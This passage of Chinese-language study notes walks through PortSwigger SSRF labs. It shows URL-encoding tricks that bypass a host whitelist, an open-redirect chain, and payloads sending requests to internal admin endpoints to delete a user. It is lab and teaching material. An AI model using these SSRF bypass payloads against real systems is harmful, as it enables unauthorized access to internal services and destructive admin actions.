 * **Lab: [SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)**
    1. 取得庫存剩餘量，並查看查詢庫存的 API，發現該 API 為一個 POST 請求，body 資料如下：
        ```
        stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
        ```
    2. 嘗試存取 `http://127.0.0.1/admin` 被白名單擋住，只允許 `stock.weliketoshop.net` 的主機
    3. 嘗試存取 `http://localhost@stock.weliketoshop.net%2Fadmin` 回應狀態碼 `500`
    4. 嘗試存取 `http://localhost%2523stock.weliketoshop.net%2Fadmin` 仍被白名單擋住
    5. 嘗試存取 `http://localhost%2523@stock.weliketoshop.net%2Fadmin` 成功回應 html 資料
    6. 找到刪除使用者的 API `/admin/delete?username=carlos`
    7. 發送刪除使用者的請求 `http://localhost%2523@stock.weliketoshop.net%2Fadmin%2Fdelete%3Fusername%3Dcarlos` 完成 Lab

### 透過開放重定向繞過 SSRF 過濾器

有時可以透過利用開放重定向漏洞來繞過基於過濾器的防禦機制。

在前面的例子中，假設使用者提交的 URL 經過嚴格驗證，以防止惡意利用 SSRF 行為。然而，被允許的應用程式URL中包含開放重定向漏洞。如果用於發出後端 HTTP 請求的 API 支援重定向，你可以構造一個滿足過濾器要求的 URL，並導致重定向請求到所需的後端目標。

例如，應用程式包含一個開放重定向漏洞，其中以下 URL：

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

會返回重定向到：

```
http://evil-user.net
```

你可以利用開放重定向漏洞來繞過 URL 過濾器，並如下利用 SSRF 漏洞：

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

這個 SSRF 攻擊有效的原因是，應用程式首先驗證提供的 `stockAPI` URL 是否在允許的域名上，確實如此。然後應用程式請求提供的 URL，這觸發了開放重定向。它跟隨重定向，並向攻擊者選擇的內部 URL 發出請求。

* **Lab: [SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)**
    1. 進入任意商品頁面，點擊 Check stock 按鈕查看庫存，發現 data 部分會呼叫 API：
        ```
        stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
        ```

        使用 URL decode 後是：
        ```
        stockApi=/product/stock/check?productId=1&storeId=1
        ```
    2. 由於這邊呼叫 API 沒有帶 Host，所以要找找看是否有能夠轉址的 API
    3. 在點擊 Next product 按鈕後，發現有一個 API 會進行轉址：
        ```
        /product/nextProduct?currentProductId=1&path=/product?productId=2
        ```
    4. 將以上資訊組合後，即可向題目要求的 URL 發送請求並刪除指定使用者完成此 Lab：
        ```
        stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
        ```
